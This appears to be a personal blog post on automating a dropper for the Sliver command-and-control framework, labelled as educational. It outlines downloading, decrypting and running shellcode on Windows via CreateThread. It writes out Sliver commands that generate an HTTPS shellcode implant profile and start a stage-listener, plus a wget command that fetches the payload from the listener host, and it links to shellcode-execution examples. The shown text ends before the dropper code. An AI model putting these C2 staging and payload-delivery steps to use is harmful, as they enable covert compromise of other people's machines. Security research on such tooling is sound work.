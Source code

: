 ```yaml
---
title: Automate Dropper for stager-listener
date: 2024-07-22
description: Start sliver's http(s) stager-listener, compile dropper and run it on windows, we get our seesion
categories:
  - golang
comment:
---
```

> 	This blog is for educational purpose only.

# Plan
We gonna create a dropper that
1. Download shellcode from http(s) stage-listener
2. Decrypt shellcode
3. Run shellcode using CreateThread method
4. Write code to compile above code for us

## Stage-listener
If you're not familiar with sliver's stage-listener, it will serve the shellcode/executable using tcp/http. 

```sh
sliver > profiles new --http https://192.168.122.62:443 -d --skip-symbols --format shellcode https-shellcode
[*] Saved new implant profile https-shellcode
```
- Start stage-listener
```bash
sliver > stage-listener --url https://192.168.122.62:443 --profile https-shellcode

[*] No builds found for profile https-shellcode, generating a new one
[*] Sliver name for profile https-shellcode: INNOVATIVE_ROUGH
[*] Job 1 (https) started
```
- Download shellcode from listener
Sliver serves shellcode in http(s) using file extension of `.woff` by default, we use `a.woff` in this example
```
root# wget --no-check-certificate https://192.168.122.62/a.woff .

root# ls -lh a.woff
-rw-r--r-- 1 root root 11M Jul 25 13:37 a.woff

root# file a.woff
a.woff: data
```
## How to execute shellcode
Follow this [github](https://github.com/Ne0nd0g/go-shellcode.git), it provides us all example code to execute caculator's shellcode in various method
